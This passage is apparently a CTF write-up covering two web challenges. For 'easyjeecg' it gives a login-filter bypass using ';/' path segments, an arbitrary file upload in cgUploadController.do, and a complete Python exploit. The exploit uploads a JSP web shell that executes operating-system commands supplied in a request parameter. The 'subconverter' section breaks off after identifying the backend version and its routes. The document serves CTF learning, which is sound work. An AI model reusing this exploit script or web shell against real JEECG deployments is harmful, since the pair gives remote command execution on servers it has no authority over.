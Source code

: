 ![image-20220825113137449](http://img.l1near.top/e6c9d24ely1h5iuse92raj211e022dg7.jpg)

![image-20220825113452771](http://img.l1near.top/e6c9d24ely1h5iuvr45n4j214m04g3z7.jpg)

### easyjeecg

1. Use ... ;/ to bypass the login check of the filter
2. cgUploadController.do?Ajaxsavefile arbitrary file upload
3. Since nginx disables access to the uploads directory, you can upload jspx or request /a/... ;/uploads/xxxxx.jsp.



![image-20220824165613155](https://c.img.dasctf.com/images/2022824/1661331378849-a205ae6d-51c9-4bb3-8de3-efcc247eea3f.png)

![image-20220824165655514](https://c.img.dasctf.com/images/2022824/1661331412951-663fefde-cf51-4af8-bc18-1ab35d171650.png)

It can be bypassed by satisfying any if.

exp:

```
import re

import requests
import sys
Target=sys.argv[1]
shellData="""<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%
    BufferedReader br = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(request.getParameter("name")).getInputStream()));
    String line = null;
    StringBuffer b = new StringBuffer();
    while ((line = br.readLine()) != null) {
        b.append(line + " ");
    }
    out.println(b.toString());
%>"""
shellPath=(re.search('"url":"(.*?)"',requests.post(url=Target+"/cgUploadController.do;toLogin.do?ajaxSaveFile",files={"file":("1.jsp",shellData)}).text,re.I|re.M).group(1))
print(Target+"/a/..;/"+shellPath+"?name=/readflag")
print(requests.get(url=Target+"/a/..;/"+shellPath+"?name=/readflag").text)
```



### subconverter

1. According to the hint in the attached Dockerfile or visit /version to know that the backend is `subconverter v0.7.2-f9713b4 backend`, you can find the corresponding github repository `https://github.com/tindy2013/subconverter ` . At the time of the question `v0.7.2-f9713b4` was the latest version of subconverter, and now subconverter has released a new version that removes the `/qx-*` route, and `fetchFile` adds a parameter for whether to pull local files.
2. Read the source code to know that there are these routes available.
